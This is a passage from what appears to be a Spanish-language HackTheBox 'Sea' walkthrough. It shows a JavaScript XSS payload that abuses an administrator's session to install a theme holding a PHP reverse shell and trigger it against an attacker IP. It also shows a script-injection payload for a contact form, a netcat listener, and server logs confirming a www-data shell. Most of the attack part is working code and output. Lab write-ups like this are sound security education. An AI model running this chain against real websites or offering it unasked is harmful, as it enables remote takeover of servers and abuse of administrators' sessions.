 ```js
xhr3.send();

xhr3.onload = function() {
  if (xhr3.status == 200) {
    // After the module is installed, trigger the reverse shell
    var xhr4 = new XMLHttpRequest();
    xhr4.withCredentials = true;
    xhr4.open("GET", urlWithoutLogBase + "/themes/revshell-main/rev.php");
    xhr4.send();

    xhr4.onload = function() {
      if (xhr4.status == 200) {
        // If the reverse shell is accessible, trigger it with IP and port
        var ip = "10.10.14.160";
        var port = "1234";
        var xhr5 = new XMLHttpRequest();
        xhr5.withCredentials = true;
        xhr5.open("GET", urlWithoutLogBase + "/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
        xhr5.send();
      }
    };
  }
};
```

Levanto un servidor en Python para que cuando el administrador acceda al enlace realice una petición a mi archivo malicioso xss.js

```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Utilizo netcat para iniciar un listener por el puerto 1234 y obtener una reverse shell

```bash
nc -lvnp 1234
listening on [any] 1234
```

Accedo al formulario de contacto y relleno los datos, en el campo website introduzco el payload que se especifica en el exploit de Python.

> Payload: http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.160:8000/xss.js"></script><form+action=
{: .prompt-info }

![imagen](https://github.com/user-attachments/assets/b5d88c36-b98b-40cd-8477-9c5be674d638)

Se realizan la peticion desde la máquina victima y al cargarse el archivo xss.js obtengo la reverse shell como el usuario www-data

```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [15/Jan/2025 18:39:04] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [15/Jan/2025 18:39:13] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [15/Jan/2025 18:39:13] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [15/Jan/2025 18:39:14] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [15/Jan/2025 18:39:14] "GET /main.zip HTTP/1.1" 200 -
```
